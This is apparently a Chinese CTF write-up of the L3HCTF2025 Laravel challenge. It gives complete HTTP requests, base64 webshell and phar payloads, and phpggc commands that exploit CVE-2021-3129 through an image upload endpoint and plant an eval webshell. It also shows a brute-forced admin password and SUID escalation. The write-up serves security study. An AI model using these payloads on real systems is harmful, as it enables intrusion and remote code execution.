+++
title = "L3HCTF2025_gogogo出发喽"
slug = "l3hctf2025-gogogo-lets-go"
description = "变种CVE？"
date = "2025-07-15T20:57:24"
lastmod = "2025-07-15T20:57:24"
image = ""
license = ""
categories = ["赛题"]
tags = ["php"]
+++

## 说在前面

我们这次战斗力十分凶猛，很快就把前三个web做了，这个Laravel我也早就看到了，但是40M的压缩包，太大了，不想审代码，不过到了后面我们是第一名的时候，也是箭在弦上不得不发了。只能强迫自己去看这套有点shi的代码，但是其实和作者自己写的一部分没什么关系，就是一个原生Laravel的漏洞

## 好戏开锣



我们进入靶机地址可以看到是Laravel框架，我暂且不谈那个一大坨的代码去审个0day，因为他如果真是0day，对我其实还有好处，我们先进行目录扫描。



看到了一个上传文件的路由，我们先用工具进行自动化审计，找找文件上传的洞，没看到什么特别明显的，看看路由



直接写出来了，测试也发现能够成功

```http
POST /api/image/base64 HTTP/1.1
Host: 1.95.8.146:41164
Content-Length: 169
Accept: application/json
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Origin: http://1.95.8.146:41164
Referer: http://1.95.8.146:41164/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
 
{"data": "data:image/jpeg;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+"}
```



很明显他是不解析的图片，那我们要能够后缀可控的话，是能直接文件上传getshell，但是并不可以。思考了一会，我们有两种选择，第一，phar反序列化，第二，进后台。



虽然是Bcrypto但是依旧是弱密码一个，爆破出来为`admin888`，本地进入后台成功getshell！不过回到比赛平台复现，失败了，显示419错误



## 再回首

在这之后，我就卡了很久很久，我们刚才说过，还有一条路，进行phar反序列化，我们找到Laravel版本为



这个版本已经不维护了，所以肯定是老洞，找到本题开启了debug模式。访问`/_ignition/health-check`得到了`{“can_execute_commands”:true}`，很容易搜到**CVE-2021-3129**漏洞，查看逻辑，这里不同的是，他可以清空log来存储phar文件，这里我测试了，发现不能写入phar文件，但是，刚好我有一个上传文件的接口。

简单的进行测试，生成phar文件

```bash
php -d "phar.readonly=0" ./phpggc Laravel/RCE5 "phpinfo();" --phar phar -o /tmp/phar.gif

cat /tmp/phar.gif | base64 -w 0
```

我发现了一个重要的问题，非常重要的问题！也是这题如此艰难的问题~



总是会触发file_put_contents，这并不是sink点，而且我们知道phar文件一旦被污染，则不能正常反序列化。经过几个小时的测试，以及花哥的点播，我发现可以利用fast_destruct来绕过，但是为什么呢，为什么，为什么，为什么

这里暂时不谈，先说做的过程。https://baozongwi.xyz/2024/10/12/phar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96bypass/ ，

```http
POST /_ignition/execute-solution HTTP/1.1
Host: 1.95.8.146:41164
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

{"solution":"Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution","parameters":{
"viewFile":"phar:///var/www/html/public/uploads/images/_uc40mzhOJ6cNEKoF.jpeg/test.txt",
"variableName":"test"
}}
```



权限足够，直接在`/var/www/html`写个木马，链接之后suid提权

```bash
openssl enc -in "/flag_gogogo_chufalong"
```

不过我文章里面写的手动修改，再修复签名好像比较麻烦，后来狗哥发现phpggc有个参数可以直接构造

```bash
php -d "phar.readonly=0" ./phpggc Laravel/RCE5 "phpinfo();" --phar phar -o /tmp/phar.gif --fast-destruct

cat /tmp/phar.gif | base64 -w 0
```

上传触发

```http
POST /api/image/base64 HTTP/1.1
Host: 1.95.8.146:41164
Content-Length: 169
Accept: application/json
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Origin: http://1.95.8.146:41164
Referer: http://1.95.8.146:41164/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
 
{"data": "data:image/jpeg;base64,PD9waHAgX19IQUxUX0NPTVBJTEVSKCk7ID8+DQoQAgAAAQAAABEAAAABAAAAAADaAQAAYToyOntpOjc7Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6Mjp7czo5OiIAKgBldmVudHMiO086MjU6IklsbHVtaW5hdGVcQnVzXERpc3BhdGNoZXIiOjE6e3M6MTY6IgAqAHF1ZXVlUmVzb2x2ZXIiO2E6Mjp7aTowO086MjU6Ik1vY2tlcnlcTG9hZGVyXEV2YWxMb2FkZXIiOjA6e31pOjE7czo0OiJsb2FkIjt9fXM6ODoiACoAZXZlbnQiO086Mzg6IklsbHVtaW5hdGVcQnJvYWRjYXN0aW5nXEJyb2FkY2FzdEV2ZW50IjoxOntzOjEwOiJjb25uZWN0aW9uIjtPOjMyOiJNb2NrZXJ5XEdlbmVyYXRvclxNb2NrRGVmaW5pdGlvbiI6Mjp7czo5OiIAKgBjb25maWciO086MzU6Ik1vY2tlcnlcR2VuZXJhdG9yXE1vY2tDb25maWd1cmF0aW9uIjoxOntzOjc6IgAqAG5hbWUiO3M6NzoiYWJjZGVmZyI7fXM6NzoiACoAY29kZSI7czoyNToiPD9waHAgcGhwaW5mbygpOyBleGl0OyA/PiI7fX19aTo3O2k6Nzt9CAAAAHRlc3QudHh0BAAAAAAAAAAEAAAADH5/2LQBAAAAAAAAdGVzdP1Hbzge69Fj0gj2j+AjIuY4uOoyAgAAAEdCTUI="}
```



```bash
php -d phar.readonly=0 ./phpggc Laravel/RCE5 "file_put_contents('/var/www/html/public/shell.php','<?php @eval(\$_POST[1]); ?>');" --phar phar -o /tmp/phar.gif --fast-destruct

cat /tmp/phar.gif | base64 -w 0

# 或者一条命令解决
php -d phar.readonly=0 ./phpggc Laravel/RCE5 "file_put_contents('/var/www/html/public/shell.php','<?php @eval(\$_POST[1]); ?>');" --phar phar -o php://output --fast-destruct | base64 -w 0
```



## 谁在沉默中爆发 

我在网上详细查看了一下remake文章，发现CVE-2021-3129的处理方式与我们这里大不相同。他们的流程大致如下

1. 清空log内容
2. 十六进制转化phar文件
3. 补全文件
4. 解码文件，只留下poc内容，保证phar文件完整
5. phar反序列化

所以他这里留下的必然是干净的phar文件，可以直接进行phar反序列化，我们回顾fast-destruct的作用



都不需要看代码看看报错就知道，所以这里的作用就是避免触发`file_put_contents`从而影响phar文件结构，导致最后触发不成功！
